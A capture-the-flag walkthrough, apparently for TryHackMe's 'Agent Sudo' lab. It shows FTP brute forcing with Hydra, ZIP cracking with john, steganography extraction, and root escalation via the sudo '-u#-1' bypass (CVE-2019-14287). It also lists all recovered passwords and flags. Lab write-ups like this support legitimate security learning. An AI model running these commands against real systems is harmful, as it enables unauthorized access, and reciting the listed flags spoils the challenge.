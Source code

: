 ```yaml
---
title: "TryHackMe - Agent Sudo CTF Walkthrough"
date: 2024-12-25
categories: [TryHackMe]
tags: [CTF, FTP, Steganography, Privilege Escalation]
image: assets/images/thm-cover/agent-sudo_Cover.jpg
---
```


# TryHackMe - Agent Sudo CTF Walkthrough

---

## Step 1: Network Scanning

Use Nmap to scan the target and identify open ports and services.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt 10.10.89.193
```

### Results:
- **Open Ports**:
  - Port 21: FTP (vsftpd 3.0.3)
  - Port 22: SSH (OpenSSH 7.6p1)
  - Port 80: HTTP (Apache 2.4.29)
- **Interesting HTTP Title**: `Announcement`
- **Total Open Ports**: `3`

---

## Step 2: Directory Enumeration

Enumerate directories using Gobuster.

```bash
sleep33@THM:~$ gobuster dir -u http://10.10.89.193 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,js,txt,php,db,json,log,bak,old
```

### Results:
- `/index.php` (Status: 200)
- `.html` and `.php` (Status: 403)
- Secret page accessible via modifying the `User-Agent` header.

---

## Step 3: Investigating FTP Service

Attempt to brute-force FTP credentials using Hydra.

```bash
sleep33@THM:~$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.89.193 ftp
```

### Credentials Found:
- **Username:** `chris`
- **Password:** `crystal`

---

## Step 4: Exploring FTP

Log in to the FTP server and list its contents.

```bash
ftp> ls -la
```

### Files Found:
- `To_agentJ.txt`
- `cute-alien.jpg`
- `cutie.png`

Download the files for further analysis.

---

## Step 5: Analyzing `cutie.png`

Use Binwalk to inspect the file for hidden data.

```bash
sleep33@THM:~$ binwalk cutie.png
```

### Findings:
- Encrypted ZIP archive located at offset `0x8702`.

Extract the ZIP file.

```bash
sleep33@THM:~$ binwalk cutie.png -e
```

---

## Step 6: Cracking the ZIP File

Use `zip2john` to extract the hash and `john` to crack the password.

```bash
sleep33@THM:~$ zip2john 8702.zip > zip_hash.txt
sleep33@THM:~$ john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

### Password Found:
- **Password:** `alien`

Extract the contents of the ZIP file. Inside, you find a message: `QXJlYTUx` which decodes to `Area51`.

---

## Step 7: Analyzing `cute-alien.jpg`

Use Steghide to extract hidden data from the image.

```bash
sleep33@THM:~$ steghide extract -sf cute-alien.jpg
```

### Results:
- **Passphrase:** `Area51`
- **Extracted File:** `message.txt`

Contents of `message.txt`:
```
Hi James,

Glad you find this message. Your login password is hackerrules!

Your buddy,
Chris
```

---

## Step 8: SSH Access

Log in via SSH using the provided credentials.

```bash
sleep33@THM:~$ ssh james@10.10.89.193
```

### Credentials:
- **Username:** `james`
- **Password:** `hackerrules`

Once logged in, locate the `user_flag.txt`.

```bash
james@agent-sudo:~$ cat user_flag.txt
```

**User Flag:**
```
b03d975e8c92a7c04146cfa7a5a313c7
```

---

## Step 9: Privilege Escalation

Check `sudo` permissions.

```bash
james@agent-sudo:~$ sudo -l
```

### Results:
- `(ALL, !root) /bin/bash`

Exploit the misconfigured `sudo` permissions to gain root access.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
# whoami
root
```

Escalation exploit: **CVE-2019-14287**

---

## Step 10: Retrieving the Root Flag

Locate and read the `root_flag.txt`.

```bash
root@agent-sudo:~$ cat /root/root_flag.txt
```

**Root Flag:**
```
b53a02f55b57d4439e3341834d70c062
```

---

## Step 11: Identifying Agent R

Agent R is referenced multiple times throughout the challenge. Their identity is clarified in `message.txt`.

**Agent R:** `Roswell alien autopsy`

---

## Summary

In this walkthrough, we enumerated services, brute-forced FTP credentials, used steganography to uncover hidden messages, escalated privileges using misconfigured `sudo` permissions, and retrieved both the user and root flags.

### Key Information:
- **FTP Password:** `crystal`
- **ZIP Password:** `alien`
- **Steg Password:** `Area51`
- **SSH Password:** `hackerrules`
- **Agent Name:** `Chris`
- **Other Agent Full Name:** `James`
- **Incident:** `Roswell alien autopsy`
- **User Flag:** `b03d975e8c92a7c04146cfa7a5a313c7`
- **Root Flag:** `b53a02f55b57d4439e3341834d70c062`
